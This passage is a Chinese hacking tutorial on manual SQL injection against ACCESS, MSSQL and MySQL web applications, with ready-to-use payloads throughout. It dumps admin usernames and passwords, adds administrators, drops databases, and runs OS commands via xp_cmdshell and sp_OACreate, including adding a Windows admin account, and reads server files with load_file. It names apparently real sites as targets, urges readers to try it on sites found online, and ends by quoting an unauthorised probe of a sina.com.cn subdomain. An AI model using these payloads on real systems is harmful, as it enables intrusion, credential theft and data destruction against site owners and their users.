俗话说得好：“自己动手，丰衣足食”，只用工具永远得不到提高，所以我们还要学会手工注入。对于注入漏洞的攻击，其实影响它最大的是网站的后台数据库，所以这里我对手工注入从数据库的角度来分类了。目前网站中使用最多的数据库要算是 ACCESS、SQL Server（MSSQL）、MySQL 这三个了。所以这里的手工注入，我就以它们三个数据库来分成三小节，讲述在不同数据库下不同的注入方法。

### 1、ACCESS

我们先找到一个类似于 `http://www.xxx.com/xx.asp?id=xxxx` 的 URL 后（用 Google Hack 搜索），先在这个 URL 后加上一个单引号，变成 `http://www.xxx.com/xx.asp?id=x'`，如果出现错误提示（如图 2-137 所示），则该网站可能就存在注入漏洞了。然后分别提交 `http://www.xxx.com/xx.asp?id=x and 1=1` 和 `http://www.xxx.com/xx.asp?id=x and 1=2`，如果它们两返回的页面不同，则说明存在注入漏洞了，如图 2-138 和图 2-139 所示。

图 2-137 加了单引号后出现错误

图 2-138 加上 and 1=1 之后页面返回和先前一样

图 2-139 加上 1=2 之后与先前的页面出现不同

在注入之后就是要判断网站后台数据库的类型，提交 `http://www.xxx.com/xx.asp?id=x and user>0` 就可以判断了，如果是 ACCESS 数据库那么返回的错误里一般会含有“Microsoft JET Database”关键字，如图 2-140 所示；如果是 MSSQL 数据库的话，返回的错误提示里一般会含有“SQL Server”关键字，如图 2-141 所示。
图 2-140 ACCESS 数据库
图 2-141 MSSQL 数据库

这里我们开始讨论 ACCESS 数据库下的手工注入。本小节这里指的数据库类型是 ACCESS。有了数据库类型，下一步就是猜解数据库的表名。猜解表名的语句为在注入点后加上“and exists (select * from 表名)”或者“and exists (select count from 表名)”。我们还是以 `http://www.xxx.com/xx.asp?id=x` 为例，如果我猜这个站的数据库中有个表名为 zyh，那就提交 `http://www.xxx.com/xx.asp?id=x and exists (select * from zyh)`。结果返回为错误，如图 2-142 所示，错误就说明数据库中没有 zyh 这个表名。那我们再猜一下有没有 config 这个表名，提交 `http://www.xxx.com/xx.asp?id=x and exists (select * from config)`，返回正常，如图 2-143 所示，说明存在 config 这个表名。
图 2-142 不存在 zyh 这个表名
图 2-143 存在 config 这个表名

一般常见的表名有：
- admin、a_admin、x_admin、m_admin、adminuser、admin_user、article_admin、administrator、manager、member、memberlist、user、users、userinfo、user_info、admin_userinfo、userlist、user_list、login、用户、密码、会员、登陆、movie、movies、news、password、clubconfig、config、company、book、art、bbs、dv_admin 等等。

猜解完了表名之后就是要猜解表里的列名了，猜解列名的语句是“exists (select 列名 from 表名)”或者“exists (select count(列名) from 表名)”。同样地，如果返回错误就说明这个列不存在；如果返回正常就说明这个列存在。比如我们这里猜解是否有 id 这个列，则提交 `http://www.xxx.com/xx.asp?id=x and exists (select id from config)`，发现返回正常，如图 2-144 所示。继续猜解，最后发现存在 adminname、adminpass、id 这三个列。
图 2-144 猜解到 id 这个列

一般常见的列名有：
- id、adminid、admin_id、adminuser、admin_user、adminuserid、admin_userid、adminusername、admin_username、adminname、admin_name、adminpwd、admin_pwd、adminpass、admin_pass、adminpassword、admin_password、administrator、administrators、usr、usr_n、username、usr_name、usrpass、user_pass、password、userpassword、user_password、pwd、userpwd、user_pwd、useradmin、user_admin、p_word、passwd、pass_wd、yonghu、用户、用户名、mima、密码、dw、oklook 等等。

猜解完了表名和列名之后，我们就开始猜解列的长度。猜解语句为 `and (select top 1 len(列名) from 表名)>x`，其中 x 是数字，我们需要变换这个 x 来确定列的长度值。如这里我提交 `http://www.xxx.com/xx.asp?id=x and (select top 1 len(adminname) from config)>1`、`>2`、`>3`、`>4` 都返回正常，如图 2-145 所示；猜到 `>5` 时就出现了错误提示，如图 2-146 所示，这个时候就说明正确的列长度为 5。
图 2-145 猜解列的长度为 4
图 2-146 猜解列的长度为 5

另外，变换 top 后的数字就可以猜解这个列的第 N 行长度，如：

```text
http://www.xxx.com/xx.asp?id=x and (select top N len(adminname) from config)>x


```

就是猜解 adminname 列的第 N 行长度。

当我们猜解完了列的长度后，就到最关键的地方了：猜解列的内容。一般来说我们只猜解用户名和密码，比如前面我们猜解了 adminname、adminpass、id 这三个字段，一般我们需要的是用户名和密码，所以猜解 adminname、adminpass 就可以了，id 没有必要去猜解。猜解用户名和密码需要用到 ASC 和 Mid 这两个函数。用 `Mid(列名, N, 1)` 函数截取第 N 位字符，再用 `ASC(Mid(列名, N, 1))` 函数得到第 N 位字符的 ASCII 码。ASCII 码又叫美国信息交换标准码，这个编码可以把一些字母和符号转换成数字，比如 a 的十进制 ASCII 码为 97，十六进制为 61。在我们猜解出来的是十进制 ASCII 码，我们需要把它转换成正常的符号。这里我给大家提供了一个转换工具，如图 2-147 所示。
图 2-147 ASCII 码转换工具

猜解用户名/密码的语句为 `and (select top 1 asc(mid(列名, 列数N, 1)) from 表名)>x`，top 后的数字为该列的第 N 行，x 为 ASCII 码，列数 N 就是在这一列中的第几个数字。这里我提交猜解 adminname 列的第一个数字的 ASCII 码值：`http://www.cctv5.com.cn/TVPLAY.ASP?id=7 and (select top 1 asc(mid(adminname,1,1)) from config)>50`，返回正常；继续提交 `>100` 返回错误，提交 `>80` 返回正常，一直提交到 `>96` 正常，提交 `>97` 返回错误。这样我们就得到了 adminname 列的第一行记录中的第一个字母的 ASCII 码为 97，通过上面的转换工具就可以得到第一个字母为 a。最后通过我对 adminname 和 adminpass 的猜解后，发现它们的 ASCII 值都为 97、100、109、105、110，转换后都为 admin。我们再用工具猜解一下以证明其正确性，如图 2-148 所示，结果是一致的。
图 2-148 工具与猜解的结果一致

已经猜解到了密码和用户名里的数据了，对于 ASCII 猜解这就算结束了。从上面我们可以看到，在猜解表名和字段名的时候都是利用一些常见的名字进行配对的，也就是说这里注入是靠很大的运气。如果表名和字段名都设置得很变态，如管理员用自己的姓名作为表名和字段名的话，那我们根本就无法猜解了。还有就是如果发现一个网站采用的是一套比较常见的系统，那么我们还可以把这套系统下载下来，从里面的数据库中得到表名和字段名，从而直接继续猜解出用户名和密码。对于 ASP+ACCESS 的注入攻击，我们得到用户名和密码也就完成了。如果我们要继续入侵的话，只有进入后台，看能否上传木马或利用一句话木马来得到 webshell（具体的过程在 2.5 节有详细介绍）。

但是对于 ASP+MSSQL 的注入就不同了。它的注入不仅可以直接暴出表名和库名，还能直接执行一些命令，比如修改数据库、获得 shell 等等，下面就开始 ASP+MSSQL 的注入吧。

##### 2、SQL Server（MSSQL）

我们还是以 `http://www.xxx.com/xxx.asp?id=xx` 为例子，如果用单引号、`and 1=1`、`and 1=2` 检测到这个网站有漏洞，加单引号后从返回的错误信息中就可以确定该网站使用的是 SQL Server 数据库，如图 2-148 所示。
图 2-148 单引号确定后台数据库类型

在得到后台是 MSSQL 数据库之后，确定当前数据库的用户名，使用 `and user>0` 就可以得到。输入 `http://www.xxx.com/xxx.asp?id=xx and user>0` 就可以得到当前用户的用户名为 xingsheadmin，如图 2-150 所示。
图 2-150 得到了当前用户的用户名

为什么输入 `and user>0` 就可以得到当前用户名呢？下面我来给大家解释一下。虽然 `and user>0` 很简单，但却包含了 SQL Server 特有注入方法的精髓。让我们来看看它的含义：首先，前面的语句是正常的，重点在 `and user>0`。因为 user 是 SQL Server 的一个内置变量，它的值是当前连接的用户名，类型为 nvarchar。而这里我们拿一个 nvarchar 的值跟 int 的 0 比较，系统会先试图将 nvarchar 的值转成 int 型。当然，转的过程中肯定会出错，SQL Server 的出错提示是：将 nvarchar 值“abc”转换数据类型为 int 的列时发生语法错误。呵呵，abc 正是变量 user 的值。这样，不费吹灰之力就拿到了数据库的用户名。还有在我们的 SQL Server 数据库里，用户 sa 是个等同 Administrators 权限的角色，拿到了 sa 权限，几乎肯定可以拿到主机的 Administrator 了。而我们上面的方法可以很方便地测试出是否是用 sa 登录。如果是 sa 登录，那么返回的错误提示是将“dbo”转换成 int 的列发生错误，而不是“sa”，如图 2-151 所示。
图 2-151 当前用户的权限为 SA

在得到当前的用户名之后，就是要查询当前用户的数据信息了。利用 `having 1=1--` 就可以得到用户数据信息。我们输入 `http://www.xxx.com/xxx.asp?id=xx having 1=1--` 即可，如图 2-152 所示，其中 `FORUM_TOPICS.TOPIC_ID` 就是当前用户的数据列信息了。`FORUM_TOPICS` 是表名，而 `TOPIC_ID` 为列名。继续猜解用户数据信息，不过这里的语句稍微有点变化，改成了 `group by 用户信息 having 1=1--`。我们继续提交 `http://www.xxx.com/xxx.asp?id=xx group by FORUM_TOPICS.TOPIC_ID having 1=1--`，可得到一个 `T_SUBJECT` 列名，如图 2-153 所示。继续提交数据，不过这个时候我们已经有了两个列名了，所以提交的数据又有一点变化，为 `group by 用户信息1,用户信息2 having 1=1--`。我们提交 `http://www.xxx.com/xxx.asp?id=xx group by FORUM_TOPICS.TOPIC_ID, FORUM_TOPICS.T_SUBJECT having 1=1--` 就可以得到其他的列名了。上面的方法原理是在 SQL 语句中，`having 1=1--` 是与 `group by` 结合使用并进行条件判断的，如果语句不完整，数据库就会返回错误信息，并显示一个表名和一个列名。
图 2-152 得到 FORUM_TOPICS 表中的 TOPIC_ID 列
图 2-153 得到 FORUM_TOPICS 表中的 T_SUBJECT 列

虽然上面的方法很好，但是只能暴当前表中的列，下面我就教大家如何暴任意表名和列名的方法吧。此方法的相关语句为：`and (select top 1 name from (select top N id,name from sysobjects where xtype=char(85)) T order by id desc)>1`。其中 N 代表数据库中的第 N 个表。这里我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 name from (select top 1 id,name from sysobjects where xtype=char(85)) T order by id desc)>1`，就可以猜解第一个表的表名为 D99_REG，如图 2-154 所示。而我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 name from (select top 2 id,name from sysobjects where xtype=char(85)) T order by id desc)>1`，就可以猜解到第二个表名为 shit_tmp，如图 2-155 所示。
图 2-154 当前用户的第一个表名为 D99_REG
图 2-155 当前用户的第二个表名为 shit_tmp

要暴任意表中的任意列的语句为：`and (select top 1 col_name(object_id('表名'),N) from sysobjects)>1`。这里我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 col_name(object_id('D99_REG'),1) from sysobjects)>1` 就可以暴出 D99_REG 表中的第一个列名为 ID，如图 2-156 所示；提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 col_name(object_id('D99_REG'),2) from sysobjects)>1` 就可以暴出第二个列名为 Data，如图 2-157 所示。
图 2-156 暴出了第一个列名为 ID
图 2-157 暴出第二个列名为 Data

有列名和表名之后，我们就是要暴出数据库中的数据了。这个命令的相关语句为 `and (select top 1 列名 from 表名 where id=N)>1`，其中 N 代表第 N 条数据。这里我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 username from admin where id=1)>1` 就可以猜解出 admin 表中 username 的第一条数据了，而提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 password from admin where id=1)>1` 就可以暴出密码了。比起 ACCESS 注入来是不是方便多了。

前面讲的 URL 参数都是数字，如 `http://www.xxx.com/xxx.asp?id=xx` 中的 id 是等于一个数字的。这种类型的注入攻击，我们直接在这个数字参数后加上注入攻击代码就可以了。但是并不是所有的 URL 中都是以数字来作为参数，还有很多是用字符来作为参数的，还有一种是用于搜索功能的，所以它的参数又是不一样。

若 URL 中的参数是字符的话，假设其 URL 地址为：`http://www.xxx.com/xxx.asp?action=value`。这个 value 就是一个字符，那么对于这样的 URL，我们要进行注入的话，就要输入 `http://www.xxx.com/xxx.asp?action=value' and 1=1` 和 `http://www.xxx.com/xxx.asp?action=value' and 1=2` 来判断是否存在注入漏洞了。

我们要进行注入的话，比如判断当前的数据库类型，那就应该输入 `http://www.xxx.com/xxx.asp?action=value' and user>0`。它和数字型注入差不多，但是要在字符后面加上一个单引号，然后在后面加上所要进行注入攻击的代码，注意单引号和注入攻击代码之间要有一个空格。至于为什么要这样，在第 7 章的 7.3.3 节有详细介绍。

还有一种就是搜索型注入。这个功能用到了 SQL 语句中的模糊查询功能，在第 5 章会有介绍。一般这个主要用来搜索，现在很多网站都提供搜索功能。如果要注入一个网站的搜索，那么就应该输入这样的代码：“要搜索的关键字%' and 注入攻击代码”。例如，我们要注入一个网站的搜索处，我们选的搜索关键字为 a，那么就可以这样进行判断是否存在注入漏洞：`a' and 1=1` 和 `a' and 1=2`。有一个前提是我们所要搜索的关键字 a 必须是可以搜索到信息的，你不要搞一个连网站都搜索不到的关键字。更为详细的介绍可以参考第 7 章的 7.3.2 节。

在我们的 ACCESS 注入中，如果后台密码是经过了 MD5 加密，而且密码强度很大的话是破解不出来的，而且在 ACCESS 注入中得到密码一般就结束了。而在 SQL 注入中还有很多事要做，比如我们在注入过程中暴出的管理员密码是经过 MD5 加密的，而我们又无法破解，这个时候我们可以直接利用 SQL 注入来修改数据库中的数据，直接把管理员的密码改掉。相关语句为：`;update 表名 set 列名='内容' where 条件`。如果我们这里提交 `http://www.xxx.com/xxx.asp?id=xx;update admin set password='123' where username='zyh'`，其功能就是把 admin 表中 username 为 zyh 的密码改为 123。这样就实现了对数据库信息的修改。当然我们也可以新添加一个管理员，相关语句为：`;insert into 表名 values (内容)--`。如果我们这里提交 `http://www.xxx.com/xxx.asp?id=xx;insert into admin values (zyh,123)--`，那么就能够往 admin 表中添加一个 username 为 zyh、password 为 123 的管理员了。

假如我们得到了一个网站的后台数据库名称为 hack，那么我们执行 `;drop database hack` 后，hack 数据库不复存在了，如 `http://www.xxx.com/xxx.asp?id=xx;drop database hack`。

我们还可以在 URL 后面提交 `and (select @@version)>0` 来获得数据库版本；可以提交 `and db_name()>0` 来获得当前数据库名；提交 `and user>0` 获得当前数据库用户名。

除了 user 可以返回当前数据库名外，还有几个也可以达到类似的效果，如：`SESSION_USER`、`CURRENT_USER`、`SYSTEM_USER`。

要判断当前数据库的权限，我们可以提交 `http://www.xxx.com/xxx.asp?id=xx and user>0` 就可以了，如果返回值为“PUBLIC”，那么当前就是 PUBLIC 权限了。要获得当前数据库名，我们可以提交 `http://www.xxx.com/xxx.asp?id=xx and db_name()>0` 就可以了，如果返回的值为“admin”，则当前数据库名为 admin。要判断是否支持多句查询，我们可以提交 `http://www.xxx.com/xxx.asp?id=xx;declare @a int--`。要判断是否支持子查询，我们可以输入 `http://www.xxx.com/xxx.asp?id=xx and (select count(1) from [sysobjects])>=0`。

另外，MSSQL 还有很多扩展功能，下面来简单介绍一下。利用数据库的扩展存储过程（`exec master..xp_cmdshell`）我们还可以做非常多的事情，利用它我们可以很快地获得一个 shell。比如我们要查看服务器上的 C 盘目录，那么我们使用：`exec master..xp_cmdshell 'dir c:\'` 就可以完成这个功能了，我们只需要提交 `http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'dir c:\'`。执行这条语句之后，就看见 C 盘根目录下的文件和文件夹了。我们还可以利用它来加一个管理员账号，我们提交 `http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'net user 123 123/add'` 和 `http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'net localgroup admini`strators 123/add'。那么我就往服务器加了一个 123 的管理员了。其实我们只要在 `exec master..xp_cmdshell` 后加上引号，并在引号内写入一些 DOS 命令就都可以执行了。为了解决有一些朋友对 DOS 命令不熟悉的问题，在光盘中我已经给大家收录了一本关于 DOS 命令方面的书了。

不过在使用扩展存储过程之前，先要判断它是否存在。我们使用 `SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell'` 就可以完成了。例如：

`http://www.xxx.com/xxx.asp?id=xx and SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell'`

如果返回正常则说明扩展存储过程存在，返回不正常的话就说明不存在。

如果扩展存储过程不存在，我们可以使用 `exec sp_addextendedproc xp_cmdshell, 'xplog70.dll'` 来恢复已经不存在的扩展存储过程。例如：

`http://www.xxx.com/xxx.asp?id=xx; exec sp_addextendedproc xp_cmdshell, 'xplog70.dll'`

执行之后，网站 `http://www.xxx.com/` 后台数据库的扩展存储过程就被恢复了。而如果要删除扩展存储过程，我们只要执行 `exec sp_dropextendedproc 'xp_cmdshell'` 这个命令就可以完成了。

前面我们利用了 `xp_cmdshell` 获得了一个 shell。其实，在 MSSQL 中还有一种方法可以获得 shell，下面给大家介绍。在 MS SQL2000 中，提供了一些函数用于访问一个叫做 OLE 的对象，通过它可以访问 OLE 控件，间接地使我们获得一个 shell。而要得到一个 shell 就要使用两个关键函数，分别为 `sp_OACreate` 和 `sp_OAMethod`。相关的 SQL 语句为：

```sql
DECLARE @S INT
EXEC SP_OACREATE 'wscript.shell', @S
EXEC master..SP_OAMETHOD @S, 'run', null, 'cmd.exe /c 需要执行的DOS命令(如 dir c:\)'

http://www.xxx.com/xxx.asp?id=xx;DECLARE @S INT
EXEC SP_OACREATE 'wscript.shell', @S
EXEC master..SP_OAMETHOD @S, 'run', null, 'cmd.exe /c dir c:\'


```

执行的结果就是返回遍历服务器 C 盘下的所有文件，同样达到一个 shell 的功能，和上面的是不是一样呢？上面两种获得 shell 的方法虽然好，但是必须是 SA 权限才能够执行。也就是说，如果我们注入的网站数据库不是 SA 权限的话，那么上面获得 shell 的方法都没有用了。

对于 MSSQL 下的注入我暂时就讲到这里，当然并没有完。因为考虑到大家在这里还没有接触过 MSSQL 数据库，所以对于在 MSSQL 下的一些更高级的注入技术，我会继续在第 5 章的 5.6 节中为大家介绍。

##### 3、MySQL

PHP 与 MySQL 是黄金组合，下面就以它们来作为 MySQL 注入的平台吧。首先我们要得到存在 PHP 注入的网站，在 Google 下输入 `inurl:php?id=` 就可以得到很多 PHP 的网站了。随便打开一个链接，如 `http://www.shidaiguocui.com/guide_show.php?id=32`。在它后面加上 `and 1=1` 提交，返回正常，如图 2-158 所示。提交 `and 1=2` 后返回错误，如图 2-159 所示。
图 2-158 加 and 1=1 返回正常
图 2-159 加 and 1=2 后返回错误

通过上面两个结果就可以确定该网站存在注入漏洞。但是，真正影响我们注入的并不是这个 PHP 网站，而是其后台的数据库。所以接下来我们就来判断其后台数据库，一般都是 MySQL。这里告诉大家一点，在目前的数据库系统中，只有 MySQL 数据库支持 `/*` 注释的，所以我们可以利用它来判断后台是否是 MySQL；如果不是，那它就不支持这种注释了，自然就会出现错误。我们输入 `http://www.shidaiguocui.com/guide_show.php?id=32/*` 后返回的结果如图 2-160 所示，没有出错，说明后台数据库就是 MySQL 了。
图 2-160 网站的后台数据库为 MySQL

接下来就是要判断 MySQL 数据库的版本了，因为不同的版本对注入的结果会产生很大的影响。在 MySQL 版本 4（包括版本 4）及以上版本，新增了一个联合查询（UNION）的功能，比如 SQL 语句 1 `UNION` SQL 语句 2，提交之后我们的 SQL 语句 1 和 SQL 语句 2 都会被执行，通过联合查询这个字面意思也是可以理解的。正是这个功能使得 MySQL 发生 SQL 注入漏洞的危险性大大提高，利用它我们可以轻易地获取数据库中其他数据表的信息。而在版本 4 以下，却不支持这个功能，而且由于 PHP 中的 `mysql_query` 函数限制了只能查询一个 SQL 语句，即使你使用分号把多个 SQL 语句组合到一起嵌入 `mysql_query` 函数，实际上也只有第一个 SQL 语句被提交给 MySQL，所以那个时候 MySQL 的注入并不是特别严重，而如今却变了。

所以确定 MySQL 的版本对我们来说比较重要，我们使用 `and ord(mid(version(),1,1))>51/*` 就可以实现了。例如：

```text
http://www.shidaiguocui.com/guide_show.php?id=32 and ord(mid(version(),1,1))>51/*


```

提交之后，如果返回正常，如图 2-161 所示，说明这个数据库版本大于 4.0；如果返回错误的话，就说明是小于 4.0 的版本了，即不支持 UNION 查询。这里用到了数据库中的 `version()` 函数，它的作用是返回数据库的版本信息。而 ASCII 码 51 代表的是 3，这里大于 3 的当然就是 4.0 以上版本了。
图 2-161 确定数据库版本为 4.0 以上

其实还有一种方法来确定是否是 MySQL 数据库及其版本。在 MySQL 数据库中，有一个其他数据库没有的扩展功能，它可以用 `/*!...*/` 这种注释语句来实现各版本功能的兼容。我们要判断后台数据库，可以在 URL 后输入 `/*!%20s*/` 来确定；如果返回的页面是错误的话，那几乎可以确定网站后台数据库为 MySQL 了，如图 2-162 所示。
图 2-162 后台数据库为 MySQL

用它来确定是 MySQL 数据库后，还可以一步步来定位它的版本：如果在 URL 后输入 `/*!30000%20s*/` 后返回错误，说明 MySQL 的版本大于 3.0；如果在 URL 后输入 `/*!40000%20s*/` 后返回错误，说明数据库版本大于 4.0；如果在 URL 后输入 `/*!50000%20s*/` 后返回正确，说明数据库版本小于 5.0，如图 2-163 所示；我们还可以获得更加精确的版本，比如输入 `/*!4016%20s*/` 后返回正常，则说明 MySQL 的版本小于 4.0.16；输入 `/*!4015%20s*/` 后返回错误页面，那么就可以确定该 MySQL 的版本为 4.0.15。
图 2-163 数据库版本小于 5.0

其实，说实话目前绝大部分的 PHP 网站的 MySQL 版本都是大于 4.0 的。至少我目前还没有见到过哪个网站用的是 3.0 版本。这是因为 MySQL 是开源的，任何人都可以免费使用，自然只要一出新版本就会很快淘汰旧版本。免费的又是最好的，谁不用谁不喜欢呢。所以这里我讲的 MySQL 注入都是在版本 4.0 以上的。

确定版本之后，我们就是要确定当前数据库的字段数目了。我们有两种办法来获得：

- 通过 `UNION`
- 通过 `order by`

先来说第一种。在利用联合查询（UNION）字段数目的时候有一些限制，就是要求前面的 SQL 语句 1 和后面的 SQL 语句 2 中的字段数要相同，否则就会出错。如果我们在不知道数据表的情况下，会给渗透带来一些困难，所以必须确定查询语句的字段数目。而我们正是可以利用联合查询字段数目不匹配会返回错误这个特性，准确获得查询语句的字段数目。我们可以提交 `union select 1,1,1,1` 及其类似语句，通过不断增加 1 的个数，再结合返回信息，就可以迅速确定该查询语句前面查询的字段数目。也就是不断增加 1，然后根据返回结果判断：当我们提交到某一个数量时页面返回正确，那么第一个 SQL 语句中的字段数目就是 union 后 1 的个数。

更为方便的是第二种方法，利用 `order by` 来猜解数据表中的字段数。利用 `order by` 后加数字，MySQL 会解释成按照第几列排序；如果查询没有我们提交的数字那么多列就会返回错误。例如我们提交 `http://www.shidaiguocui.com/guide_show.php?id=32 order by 10` 后返回正常，这个时候说明数据表中的字段数大于 5；当提交 `order by 13` 时返回正常，如图 2-164 所示，而当提交 `order by 14` 时，如图 2-165 所示，却返回错误，这就说明数据表的字段为 13 个。
图 2-164 提交 13 个字段时返回正常
图 2-165 提交 14 个字段时返回错误

知道了字段数之后，我们就可以利用 union 查询来获得当前数据库的表名。利用方法是“union select 字段数 from 表名”，中间的字段数大家要注意，它是这样表示的：假如有三个字段，那么就应该这样：`1,2,3`。例如刚才那个网站，我们要获得网站数据库的表名，提交 `union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin` 后，就变成了：

`http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin`

返回结果是正常的，说明 `admin` 这个表名存在，而且在页面中还有一些数字，如图 2-166 所示。如果不存在就会返回错误页面。如果要猜解其他表名，我们只需要不断更改表名就可以了，和前面的 ACCESS 注入中差不多。
图 2-166 返回的信息

在图 2-166 的信息中，我们得到了几个数字，分别是 2、3、4、5、7、9、10。这几个数字的作用就是代表第几个字段，而且我们可以用其他函数或字符代替这些字段。例如我们要查看数据库版本时用到的是 `version()` 函数，只要将 `version()` 放在上面几个字段中的任何一个，就可以得到当前数据库版本。例如提交：

`http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,version(),3,4,5,6,7,8,9,10,11,12,13 from admin`

那么就会在第 2 个字段处出现数据库版本信息；例如我们提交：

`http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,username,3,4,5,6,7,8,9,10,11,12,13 from admin`

后就可以看到当前管理员的用户名，如图 2-167 所示；而当我们提交：

`http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin`

后就暴出了当前管理员的密码，如图 2-168 所示。
图 2-167 暴出管理员用户名
图 2-168 暴出管理员密码

上面我们成功暴出了管理员密码，当然上面暴出的只是 `admin` 表中的第一条记录，因为在默认情况下它是取第一条记录。而如果我们要取 `admin` 表中的其他记录呢？比如第二条。不过要实现读取其他记录，我们首先要得到表中能够唯一识别该记录的字段。如在我们实际生活中可以用身份证号码来识别每一个人，而在数据库也要有这么一个字段，在数据库中我们称其为主键，在第 5 章中有详细介绍。一般来说程序员在做数据库的时候都是用 `id` 这个字段名来作为主键。这里我们假设 `id` 就是主键，那么我们要取得 `admin` 表中的第二条记录信息，就应该提交：

`http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin where id=2`

也就是在后面加上 `where id=数字`。而这个数字就是管理员的编号，它是唯一的。

这个查询其他记录的功能非常有用。我们也知道现在几乎所有网站的密码都是经过 MD5 加密，如果那个密码设置得很变态的话，我们是很难破解的。不能被破解，系统又没有如 cookie 欺骗之类的漏洞，那么我们得到了加密后的密码也是没有用。而我们查询其他记录，那么就很有可能其他记录的密码不是很强壮，破解几率就很大。

前面在介绍 PHP 注入工具的时候，就提到了 `load_file()` 这个函数，利用它我们可以轻易读取服务器上的内容。不过要使用这个函数，当前数据库的权限必须为 root（和 SA 是一样的，只不过这里不叫 SA，叫 root，其实也是超级管理员）。所以我们要使用 `load_file()` 函数，首先要判断是否是 root 权限，使用 `and ord(mid(user(),1,1))=114/*` 就可以完成。例如输入：

`http://www.shidaiguocui.com/guide_show.php?id=32 and ord(mid(user(),1,1))=114/*`

后，如果返回正确的话，则说明是 root 权限；错误的话就不是 root 权限了，如图 2-169 所示。
图 2-169 数据库的权限不是 root

我们还可以利用 `and (select count(*) from mysql.user)>0` 来判断是否具有文件读写权限，同样可以实现文件读取。

前面我们在得到存在的数据表以后，返回的信息有很多数字，如图 2-166。我也提到了可以用函数来代替它们。如果我们发现一个网站可以执行 `load_file()` 函数的话，也可以在这些字段中写入 `load_file()` 函数，以读取服务器上的信息。

我还是以上面的网站为例子，而且 MySQL 具有 root 权限，可以利用 `load_file()` 读取文件。不过这里我假设这个网站用的是 Windows 操作系统，那么我要读取 `c:/boot.ini` 文件中的信息，我们可以提交：

`http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,load_file(0x633A2F626F6F742E696E69),3,4,5,6,7,8,9,10,11,12,13 from admin`

就可以读取 `c:/boot.ini` 中的信息了。有的人会问在上面中没有 `c:/boot.ini` 啊？其实 `0x633A2F626F6F742E696E69` 就是 `c:/boot.ini` 的十六进制表示。这里把它改成十六进制是为了防止我们提交的数据被 PHP 转义掉，例如提交 `'` 时被转义为 `\'`。被转义后我们提交的数据就会是错误的，自然结果也是错误的，而十六进制可以避免这种情况发生。

上面我简单介绍了在 MySQL 数据库环境下怎么通过手工注入得到网站管理员密码，以及怎么执行一些特殊函数（如 `load_file`）来达到我们攻击的目的。其实 MySQL 下还有一些高级的黑客技术，但是在这里我暂时不讲了。因为涉及到了很多 MySQL 系统和 PHP 的知识，而在这里大家还没有学 PHP 和 MySQL。所以其他高级技巧我会在第 5 章的 5.7 节和第 10 章中给大家介绍，目的就是让大家有了那些基础知识之后，能够更加深刻地理解这些高级黑客技术。如果放在这里肯定有很多人看不懂，势必会影响大家的学习热情。好了，上面讲了那么多，大家也可以去网上找几个站来做做试验了。

有一篇文章非常值得大家学习，是由剑心写的《对 sina.com.cn 的一次安全检测》。很适合刚刚学会 PHP 手工注入的新手借鉴，文章内容如下所示：

> 最近学习了一些简单的 Mysql 注入知识，也对 Php 下的注入有了一定的了解，就想找个机会检验下自己的学习成果，顺便把学习到的知识做个总结，于是上网想找几个目标来实习下！
>
> 看了那么多牛人对 163.com 做安全检测，我想那就试试可以跟 163.com 齐名的另一个网站新浪网，看看它的安全性如何吧。
>
> 要想最快地找到网站的系统漏洞就要用扫描，要想最快地找到脚本方面的漏洞就应该用 Google 了。我在 Google 里这样搜索：`php?id=` `site:sina.com.cn`，这句话的意思是在 sina.com.cn 中找寻链接有 `php?id=` 这样的信息。因为 Php 注入的特性（Php 默认将传递的参数中的 `'` 等字符做了转换，所以对于字符串类型的变量默认情况下很难注入），所以我们主要找 `id=` 这样的地方，很有可能就是传递整型数字变量的地方。点搜索之后就要看看运气了，嘿嘿，还真让我找到一个哦。
>
> XX.sina.com.cn 是新浪的一个分站，我看到里面有很多形如 `php?id=` 的地方，这些就是潜在的可能出问题之处。先看看 `http://XX.sina.com.cn/course/coursedetail.php?id=1122` 这个链接，加上 `and 1=1` 提交，正常返回，如图 2-170 所示。提交：
>
> `http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2`
>
> 返回信息如图 2-171 所示，在下面还暴出了路径。

图 2-170　添加 and 1=1 后返回正常

图 2-171　添加 and 1=2 后返回错误并露出了路径

通过基本分析可以知道，这的确是个注入点，因为我们的 1=1 和 1=2 被当成代码执行了，那么就是存在漏洞了。如果参数没有其它过滤的话（我发现很多的注入点其实都被过滤了 select 和 union 等关键字，在 MySQL 中等于是个鸡肋漏洞），我们就可能注入这个网站啦！继续吧，看看是什么数据库！猜测就知道应该是 php+mysql 的，但是还是用事实说话吧！提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122/*jnclovesw
```

正常返回，如图 2-172 所示，事实证明这的确是 mysql 服务器，因为数据库里支持 /* 注释的好像差不多就是 MySQL 啦！

图 2-172　确定后台数据库为 MySQL

知道是什么数据库了，那就继续看看数据库的信息吧。提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and
ord(mid(version(),1,1))>51/*
```

正常返回，图 2-173 所示。哈哈，看来这个数据库版本是大于 4.0 的啦！Ascii 码 51 代表的是 3，这里大于 3 的当然就是 4.0 以上版本啦！

图 2-173　确定 MySQL 的版本为 4.0 以上

看看是不是 root 吧！提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and
ord(mid(user(),1,1))=114/*
```

